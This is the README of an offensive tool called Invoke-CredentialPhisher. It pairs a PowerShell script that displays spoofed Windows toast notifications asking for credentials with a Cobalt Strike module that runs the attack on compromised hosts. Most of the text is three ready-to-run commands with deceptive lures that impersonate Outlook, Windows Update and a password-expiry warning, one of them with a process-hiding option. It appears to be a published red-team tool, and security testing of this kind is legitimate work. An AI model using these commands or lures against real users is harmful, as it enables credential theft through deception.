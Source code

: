 ﻿# Invoke-CredentialPhisher

This repository consists of two files:
* Invoke-Credentialphisher.ps1
* phishing_module.cna

The first one is a powershell script to send toast notifications on behalf on an (installed) application or the computer itself. The user will be asked to supply credentials once they click on the notification toast. The second one is a Cobalt Strike module to launch the phishing attack on connected beacons. More information on why these scripts were created can be found on the following blogpost: https://blog.fox-it.com/2018/08/14/phishing-ask-and-ye-shall-receive/

# Examples

Outlook connection:  
```.\Invoke-CredentialPhisher.ps1 -ToastTitle "Microsoft Office Outlook" -ToastMessage "Connection to Microsoft Exchange has been lost.`r`nClick here to restore the connection" -Application "Outlook" -credBoxTitle "Microsoft Outlook" -credBoxMessage "Enter password for user '{emailaddress|samaccountname}'" -ToastType Application -HideProcesses```  

Updates are available:  
```.\Invoke-CredentialPhisher.ps1 -ToastTitle "Updates are available" -ToastMessage "Your computer will restart in 5 minutes to install the updates" -credBoxTitle "Credentials needed" -credBoxMessage "Please specify your credentials in order to postpone the updates" -ToastType System -Application "System Configuration" ```  

Password expiration:  
```.\Invoke-CredentialPhisher.ps1 -ToastTitle "Consider changing your password" -ToastMessage "Your password will expire in 5 minutes.`r`nTo change your password, click here or press CTRL+ALT+DELETE and then click 'Change a password'." -Application "Control Panel" -credBoxTitle "Windows Password reset" -credBoxMessage "Enter password for user '{samaccountname}'" -ToastType "Application"```
